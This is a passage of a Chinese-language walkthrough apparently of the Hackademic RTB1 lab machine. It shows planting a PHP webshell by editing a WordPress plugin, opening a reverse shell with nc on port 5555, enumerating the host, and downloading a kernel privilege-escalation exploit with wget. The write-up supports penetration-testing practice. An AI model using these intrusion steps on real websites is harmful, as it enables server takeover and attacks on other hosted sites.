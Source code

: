 [http://www.onlinehashcrack.com/free-hash-reverse.php](http://www.onlinehashcrack.com/free-hash-reverse.php)

![](25.png)

登陆wordpress的后台wp-admin

尝试上传php webshell到服务器，以方便运行一些linux命令.在插件页面寻找任何可以编辑的插件. 我们选择Textile这款插件，编辑插入我们的php webshell，点击更新文件，然后访问我们的php webshell.


![](26.png)

![](27.png)

Php webshell被解析了，我们可以控制你网站的文件，但是我们只希望获得网站服务器的root权限,来入侵服务器上其它的网站。

我们用NC来反弹一个shell,首先在我们的电脑上监听5555端口.

![](28.png)

然后在Php webshell上反向连接我们的电脑，输入你的IP和端口5555.
 ![](29.png)

点击连接我们会看到

![](30.png) 

接下来我们尝试执行一些命令：

```shell
id
uid=48(apache) gid=489(apache) groups=489(apache)
 （用来显示用户的id和组）

pwd
/var/www/html/Hackademic_RTB1/wp-content/plugins
 （显示服务器上当前的路径）

uname -a
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
（显示内核版本信息）
```

![](31.png)

现在我们知道，服务器的内核版本是2.6.31.5-127.fc12.1686,我们在exploit-db.com中搜索此版本的相关漏洞.
在服务器上测试了很多exp之后，我们用以下的exp来提升权限.
http://www.exploit-db.com/exploits/15285

我们在nc shell上执行以下命令:

```shell
wget http://www.exploit-db.com/exploits/15285 -o roro.c
```

